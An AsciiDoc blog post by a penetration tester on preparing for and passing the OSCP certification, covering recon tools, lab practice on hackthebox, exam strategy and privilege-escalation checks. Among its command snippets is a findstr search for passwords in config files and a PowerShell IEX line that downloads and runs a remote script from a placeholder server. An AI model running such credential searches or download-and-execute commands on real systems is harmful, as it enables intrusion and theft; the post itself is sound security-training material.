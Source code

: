 :slug: oscp-journey/
:date: 2019-12-04
:category: opinions
:subtitle: The meaning of Try Harder
:tags: challenge, ethical hacking, pentesting, security, training, exploit
:image: cover.png
:alt: Man sitting facing laptop. Photo by Clint Patterson on Unsplash: https://unsplash.com/photos/dYEuFB8KQJk
:description: The OSCP exam is one of the hardest certifications out there for pentesters. Many people take this exam to test their pentesting abilities, but most of them don’t pass it on the first attempt. Here I will show you how I prepared for the OSCP exam and how you can prepare to do your best on it, too.
:keywords: Bussiness, Information, Security, Protection, Hacking, Best Practices
:author: Jonathan Armas
:writer: johna
:name: Jonathan Armas
:about1: Systems Engineer, OSCP - Security+
:about2: "Be formless, shapeless like water" Bruce Lee
:source: https://unsplash.com/photos/dYEuFB8KQJk

= How to Pass the OSCP

Before taking the exam
I already had years of work work experience as a penetration tester
at +Fluid Attacks+.
So, I already had the knew how to perform a penetration test
and how to build a technical report of my findings.
However, if you don’t have any work experience on the field
or you're just starting out,
this post may help you pass your exam.

The most important phase on a penetration test is scanning.
Here you will use tools to get information about your target,
such as its operating system, open ports, the services running on those ports
and their versions, whether they have public vulnerabilities or not,
and whether there is a public exploit for those vulnerabilities.
Since +metasploit+ is restricted to only *ONE* machine
(this includes the auxiliary modules too)
you need to be familiar with tools such as:

* link:https://nmap.org/[Nmap]
* link:https://tools.kali.org/web-applications/dirbuster[Dirbuster]
* link:https://tools.kali.org/information-gathering/nikto[Nikto]
* link:https://tools.kali.org/web-applications/gobuster[Gobuster]
* link:https://github.com/maurosoria/dirsearch[Dirsearch]
* link:https://tools.kali.org/information-gathering/enum4linux[enum4linux]
* link:https://github.com/offensive-security/exploitdb/blob/master/searchsploit[searchsploit]


The only way to do this is by using them continuously
until you develop a solid enumeration strategy.
To help with this there are services like link:https://www.hackthebox.eu/[hackthebox] and link:https://www.vulnhub.com/[vulnhub],
where you can find vulnerable machines on which to test your skills.

image::hackthebox.png[owned-machines]

Once there you can also practice the _gaining access_ phase
and your privilege escalation strategies with multiple operating systems
and vulnerabilities that resemble the ones in real-life scenarios.
You would be surprised by how many times
I’ve encountered a vulnerability on +hackthebox+ first
and then on a real-life service.
The tools and resources that I got the most from for privilege escalation were:

* link:https://github.com/rebootuser/LinEnum[linenum]
* link:https://github.com/AonCyberLabs/Windows-Exploit-Suggester[windows exploit suggester]
* link:https://github.com/offensive-security/exploitdb/blob/master/searchsploit[searchsploit]
* link:https://github.com/411Hall/JAWS[JAWS]
* link:https://github.com/PowerShellMafia/PowerSploit/tree/master/Privesc[PowerUp]
* link:https://blog.g0tmi1k.com/2011/08/basic-linux-privilege-escalation/[g0tmilk Linux privesc blog]
* link:https://www.absolomb.com/2018-01-26-Windows-Privilege-Escalation-Guide/[absolomb Windows privesc blog]

I recommend hacking all the live machines that you can
without any help and get some points on the platform.
Doing this helps you get used to the tools
and increases your confidence in using them when you take the exam.
If you can’t hack a machine and it gets removed,
you can check the walkthrough by link:https://www.youtube.com/channel/UCa6eh7gCkpPo5XXUDfygQQA[Ippsec]
and learn new things.
You can learn stuff from these videos
even for machines you did root.
Do this for at least one month or,
if you have no work experience whatsoever, two months.

== Attacking the Lab

I had a month of lab access, so the approach I took
to the course and the lab was to split them by days
One concentrating on the guide
and taking notes of things that I didn't know,
and another day for attacking the lab machines.

When you are working on the machines,
also work on your time management skills.
Do not spend too much time on one machine when you can try another one.
Time management becomes very important when you are taking your exam.

Before your lab access ends,
be sure that you fully understand how to do a +buffer overflow+.
Take notes of every step, copy all the commands that you need,
and also how to get the +return address+.


== Post Lab

Here you want to gather the most information
about the last two steps.
We are going back to +hackthebox+
but instead of doing the active machines
we are going to do the ones from link:https://docs.google.com/spreadsheets/d/1dwSMIAPIam0PuRBkCiDI88pU3yzrqqHkDtBngUHNCw8/edit#gid=0[this list]
(there are also some from +vulnhub+).

image::url-oscp.png[oscp-like-machines]

Try to conquer those machines listed
without the aid of walkthroughs.
When you finish one, look at these walkthroughs
to check whether there is another way in,
if so then also practice it.

The day before the exam, I did nothing.
Your body and mind need to rest
and you should not try to cram before the test.
Eat your favourite foods whatever they may be.
Treat yourself to a well-deserved dessert,
watch movies, and series that you perhaps ignored
when you focused on your studies.
The point is to de-stress so you're fresh when you take the exam.


== The Exam

The task is to gain administrative access
to the machines in the network.
There are 5 machines,
each is worth a certain number of points if you complete it
and you need at least +70+ points to pass the exam.
The machine points are distributed as:

* 25 points Buffer Overflow
* 25 points machine
* Two 20 points machines
* 10 points machine

I started with the +25 points BoF+ machine
while I scanned all the other ones.
I did this because I knew that I could follow the guide step-by-step
and get the BoF points.
My scanning strategy was to run +nmap+ with these options:

.nmap with options
[source,bash]
----
$ nmap ip.ip.ip.ip -A -p- --min-rate=5000 --max-retries=5 -o tcp.txt
----

Also, I pinged the machine
in order to view its operative system.
If the +TTL+ (Time to Live) is +64+ then it is a +Linux+ machine
and if it is +128+ then it’s a +Windows+ machine.
When the port scan finished I checked every web service
and used a web crawler like +dirbuster+ or +dirsearch+.

After finishing the +BoF+ machine,
I started hacking the machines
with all the information that I had collected.
I ended up going down rabbit holes
trying to gain admin privileges on the 25-pointer machine.
Because of the time the 25-point machine was taking,
I quickly decided to switch to both the 20-point
and finally, the 10-pointer machine.

For privilege escalation
I first checked the operative system version and kernel,
this can be done by running:

[source,bash]
----
$ uname -a #linux
> systeminfo #windows
----

If it was +Linux+ I checked for +sudo+ rights
running processes, and for +SUID+ executables.
There is a tool named +linenum+ but it’s too verbose
and I like to search for things manually.

[source,bash]
----
$ sudo -l
$ ps -aux
$ find / -perm -u=s -type f 2>/dev/null
----

If it was +Windows+, I checked for the +Groups.xml+ file
(usually it has administrative user and password information there),
installed software and tried to use +powershell+
to run +Windows+ exploits.
When it comes to +Windows+, most of the time the way of escalating privileges
is through a vulnerability in the +OS+ version
or in an installed program version.

[source,bash]
----
> findstr /si password *.xml *.ini *.txt *.config 2>nul
> IEX(New-Object Net.WebClient).downloadString('http://server/script.ps1')
----


I finished my test in less than 10 hours
with 4 admins and 1 user for a little more than +75+ total points.
The mistake that I made
was to be lazy with my screenshots,
so I needed to redo all the machines
to get all of my evidences. *DO NOT DO THIS!*
The next day I did my technical documentation,
the advice here is to put everything that you did
from the _scanning_ phase up to the _privilege escalation_ phase.
Also, if you modified an exploit (even if is only one line)
put it on the report and mark what you modified.

image::oscp-win.png[oscp-win]

== Be prepared and do your best

The OSCP is a difficult certification, but it’s not impossible.
The steps before the lab are going to help you
get the most out of the course
and to establish your own routine when it comes to doing a penetration test.
The enumeration and scanning phases
are the most important ones in the whole process
because you can spend hours going down rabbit holes
if you do not do these steps properly.
Mental toughness is needed to pass this test,
so be prepared to think quickly and creatively,
daisy-chaining vulnerabilities, and rest when you need it.
The discord groups of hackthebox and OFFSEC are at your disposal
to answer your questions or give you hints where you need them. Try harder.
